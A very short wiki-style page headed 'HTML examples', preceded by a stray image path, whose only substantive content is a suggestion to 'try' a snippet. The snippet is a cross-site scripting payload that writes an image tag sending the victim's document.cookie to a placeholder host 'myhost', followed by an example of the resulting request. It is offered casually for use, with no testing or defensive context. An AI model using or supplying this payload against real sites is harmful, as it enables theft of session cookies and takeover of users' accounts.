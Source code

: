 # Introduction #

HTML examples


# Details #

Might wanna try this:

```
<script>document.write('<img src="http://myhost/?' + document.cookie + '">')</script>
<img src=http://myhost/?null>
```